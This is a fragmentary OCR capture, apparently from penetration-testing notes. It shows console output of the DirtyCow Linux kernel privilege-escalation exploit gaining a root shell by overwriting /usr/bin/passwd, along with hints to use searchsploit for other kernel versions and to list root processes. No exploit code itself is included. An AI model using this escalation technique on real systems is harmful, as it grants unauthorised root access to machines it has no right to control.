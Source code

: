    (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap f05df000

madvise 0

ptrace 0


user@debian:~$ /usr/bin/passwd
root@debian:/home/user# 
```



search for other versions 
searchsploit Linux Kernell <version>








ps -aux | grep root


 
 
 

